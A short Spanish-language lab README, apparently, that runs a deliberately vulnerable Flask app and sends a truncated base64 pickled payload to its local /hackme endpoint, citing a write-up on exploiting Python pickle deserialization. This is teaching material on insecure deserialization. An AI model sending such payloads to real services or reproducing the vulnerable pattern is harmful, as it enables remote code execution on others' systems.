 ### Ejecucion del app.py vulnerable
```bash
flask run
```

### Enviar petición
 ```bash
 url -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme
```
[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]

![image..png](image/image.png)
